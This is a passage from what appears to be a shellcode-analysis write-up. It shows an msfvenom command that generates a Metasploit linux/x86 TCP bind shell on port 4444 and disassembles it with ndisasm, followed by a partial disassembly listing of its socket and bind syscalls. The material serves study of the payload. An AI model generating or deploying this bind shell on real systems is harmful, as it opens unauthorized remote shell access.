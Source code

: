 ![Exec](exec_with_null_shell.png)

## ndisasm in action for linux/x86/shell_bind_tcp payload

With the following command we create a TCP BIND shellcode listening to port
4444 and we pass to ndisasm tool creating a disassembled output.

> msfvenom -p linux/x86/shell_bind_tcp -a x86 --platform linux -f raw | ndisasm -u - > bind_tcp.ndisasm

```asm
00000000  31DB              xor ebx,ebx
00000002  F7E3              mul ebx
00000004  53                push ebx
00000005  43                inc ebx
00000006  53                push ebx
00000007  6A02              push byte +0x2
00000009  89E1              mov ecx,esp
0000000B  B066              mov al,0x66
0000000D  CD80              int 0x80
0000000F  5B                pop ebx
00000010  5E                pop esi
00000011  52                push edx
00000012  680200115C        push dword 0x5c110002
00000017  6A10              push byte +0x10
00000019  51                push ecx
0000001A  50                push eax
0000001B  89E1              mov ecx,esp
0000001D  6A66              push byte +0x66
0000001F  58                pop eax
00000020  CD80              int 0x80
00000022  894104            mov [ecx+0x4],eax
00000025  B304              mov bl,0x4
```